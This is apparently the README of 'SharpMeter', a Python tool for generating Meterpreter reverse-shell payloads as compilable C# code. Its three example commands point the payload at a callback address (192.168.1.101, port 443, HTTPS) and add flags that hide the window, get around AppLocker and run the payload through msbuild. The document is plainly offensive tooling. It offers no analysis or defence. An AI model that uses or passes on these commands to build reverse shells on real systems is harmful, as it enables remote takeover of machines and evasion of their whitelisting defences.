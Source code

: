 # SharpMeter
A Simple Way To Make Meterpreter Reverse Payloads

# Example Close Window
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w

# Example AppLocker
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x -a

# Example msbuild!
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x -m
